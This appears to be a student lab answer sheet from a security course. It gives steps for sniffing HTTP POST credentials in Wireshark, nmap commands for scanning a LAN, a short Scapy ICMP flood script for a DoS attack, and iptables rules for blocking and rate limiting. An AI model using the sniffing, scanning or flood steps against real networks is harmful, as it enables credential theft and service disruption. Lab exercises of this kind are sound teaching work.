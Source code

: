 # MSEI 021

## Question 1: Implement the network sniffers to find out usernames and passwords by retrieving the packets from HTTP POST on any website.
Steps Using Wireshark (No Code Needed):

Open Wireshark.
Select your network interface.
Apply the filter: http.request.method == "POST".
Capture traffic, identify HTTP POST packets, and inspect their payload for credentials.

Note: HTTP POST often transmits data like usernames and passwords in plain text. Ensure ethical and authorized use.


## Question 2: Define the topology used in LAN and scan the network with details like IP, MAC Address, Host name, Username, and OS details of at least 10 machines, and generate the report.
Using nmap Command (No Code Needed):

Install nmap:
```bash 
sudo apt install nmap
```

Scan your LAN:
```bash 
sudo nmap -sn 192.168.1.0/24
```
(Replace 192.168.1.0/24 with your subnet.)

To get detailed information, use:

```bash
sudo nmap -A -T4 192.168.1.0/24
```
(This will provide details like IP, MAC Address, Hostname, OS, and open ports.)

Save the output:
```bash
sudo nmap -A -T4 192.168.1.0/24 > network_report.txt
```
(The results will be stored in network_report.txt.)


## Question 3: Attempt a DoS/DDoS attack on the target computer and display the list of IPs with access details. Prevent the DDoS attack using any firewall.

### Part A: Attempt DoS Attack
Code for DoS Attack Using Scapy:

```python
from scapy.all import *

target_ip = "192.168.1.100"  # Replace with the target IP
packet = IP(dst=target_ip)/ICMP()  # ICMP packets for ping flood

print("Starting DoS attack...")
send(packet, count=10000, inter=0.001)  # Sends 10,000 packets
print("DoS attack completed.")
```

### Part B: Display IPs Who Attempted the Attack

Monitor logs using:
```bash
sudo tail -f /var/log/syslog
```

Use iptables to track incoming traffic:
```bash
sudo iptables -L -n -v
```

### Part C: Prevent DDoS Using Firewall

Commands to Block IPs Using iptables:

1. Block specific attacking IP:

```bash
sudo iptables -A INPUT -s <attacker-ip> -j DROP
```

2. Use rate limiting to mitigate attacks:

```bash
sudo iptables -A INPUT -p tcp --dport 80 -m limit --limit 25/minute --limit-burst 100 -j ACCEPT
sudo iptables -A INPUT -p tcp --dport 80 -j DROP
```
